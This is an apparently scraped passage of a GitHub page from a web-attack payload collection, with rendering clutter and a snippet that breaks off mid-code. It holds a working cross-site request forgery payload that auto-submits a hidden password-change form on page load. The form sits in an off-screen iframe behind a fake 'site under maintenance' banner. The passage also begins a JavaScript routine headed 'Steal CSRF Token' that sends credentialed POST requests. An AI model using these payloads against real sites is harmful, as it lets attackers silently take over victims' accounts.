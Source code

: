<body onload=&quot;envia()&quot;>
<form method=&quot;POST&quot;id=&quot;formulario&quot; action=&quot;http://aplicacion.example.com/cambia_pwd.php&quot;>
<input type=&quot;text&quot; id=&quot;pwd&quot; name=&quot;pwd&quot; value=&quot;otra nueva&quot;>
</form>
<body>
<script>
function envia(){document.getElementById(&quot;formulario&quot;).submit();}
</script>


<iframe src=&quot;2-1.html&quot; style=&quot;position:absolute;top:-5000&quot;>
</iframe>
<h1>Sitio bajo mantenimiento. Disculpe las molestias</h1>
" tabindex="0" role="button">
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-copy js-clipboard-copy-icon m-2">
    <path fill-rule="evenodd" d="M0 6.75C0 5.784.784 5 1.75 5h1.5a.75.75 0 010 1.5h-1.5a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-1.5a.75.75 0 011.5 0v1.5A1.75 1.75 0 019.25 16h-7.5A1.75 1.75 0 010 14.25v-7.5z"></path><path fill-rule="evenodd" d="M5 1.75C5 .784 5.784 0 6.75 0h7.5C15.216 0 16 .784 16 1.75v7.5A1.75 1.75 0 0114.25 11h-7.5A1.75 1.75 0 015 9.25v-7.5zm1.75-.25a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-7.5a.25.25 0 00-.25-.25h-7.5z"></path>
</svg>
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-check js-clipboard-check-icon color-text-success d-none m-2">
    <path fill-rule="evenodd" d="M13.78 4.22a.75.75 0 010 1.06l-7.25 7.25a.75.75 0 01-1.06 0L2.22 9.28a.75.75 0 011.06-1.06L6 10.94l6.72-6.72a.75.75 0 011.06 0z"></path>
</svg>
    </clipboard-copy>
  </div></div>
<h3 dir="auto"><a id="user-content-steal-csrf-token-and-send-a-post-request" class="anchor" aria-hidden="true" href="#steal-csrf-token-and-send-a-post-request"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z"></path></svg></a><strong>Steal CSRF Token and send a POST request</strong></h3>
<div class="highlight highlight-source-js position-relative overflow-auto"><pre><span class="pl-k">function</span> <span class="pl-en">submitFormWithTokenJS</span><span class="pl-kos">(</span><span class="pl-s1">token</span><span class="pl-kos">)</span> <span class="pl-kos">{</span>
    <span class="pl-k">var</span> <span class="pl-s1">xhr</span> <span class="pl-c1">=</span> <span class="pl-k">new</span> <span class="pl-v">XMLHttpRequest</span><span class="pl-kos">(</span><span class="pl-kos">)</span><span class="pl-kos">;</span>
    <span class="pl-s1">xhr</span><span class="pl-kos">.</span><span class="pl-en">open</span><span class="pl-kos">(</span><span class="pl-s">"POST"</span><span class="pl-kos">,</span> <span class="pl-c1">POST_URL</span><span class="pl-kos">,</span> <span class="pl-c1">true</span><span class="pl-kos">)</span><span class="pl-kos">;</span>
    <span class="pl-s1">xhr</span><span class="pl-kos">.</span><span class="pl-c1">withCredentials</span> <span class="pl-c1">=</span> <span class="pl-c1">true</span><span class="pl-kos">;</span>
